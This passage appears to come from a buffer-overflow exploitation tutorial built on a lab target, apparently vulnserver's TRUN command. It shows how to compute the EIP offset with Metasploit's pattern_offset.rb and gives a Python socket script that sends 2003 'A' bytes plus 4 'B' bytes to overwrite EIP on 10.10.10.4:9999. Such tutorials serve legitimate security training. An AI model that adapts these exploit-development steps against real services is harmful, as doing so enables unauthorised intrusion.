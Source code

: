 After executing the python script, the program will crash and display the overwritten value of the “EIP” (e.g. 386F4337). Write it down somewhere because we will need to use it in the next step to finding the offset.



## Calculate the Offset

Offset is the **maximum number of characters the buffer can store**.

We are going to use another Metasploit tool to find the exact match for our offset. For this, use the following command with the same byte length and specify the “EIP” value that you found.

Syntax:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <lenght> -q <numberEIP>
```

From this number, the EIP (pointer to the next instruction) is overwritten.

Example if the EIP is 386F4337 and the length of the buffer is 2200:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2200 -q 386F4337
```

With this command you can see the offset, for example:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2200 -q 386F4337
[*] Exact match at offset 2003
```

In this case, the lenght of the buffer is 2003 (offset). Now, we will try to overwrite the “EIP” part of the memory.

Python code for the previous example:

```
#!/usr/bin/python

import sys, socket

shellcode = “A” * 2003 + “B” * 4

try:

 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 s.connect((‘10.10.10.4’,9999))

 s.send((‘TRUN /.:/’ + shellcode))

 s.close()

except:

 print “Error connecting to server”

 sys.exit()
```
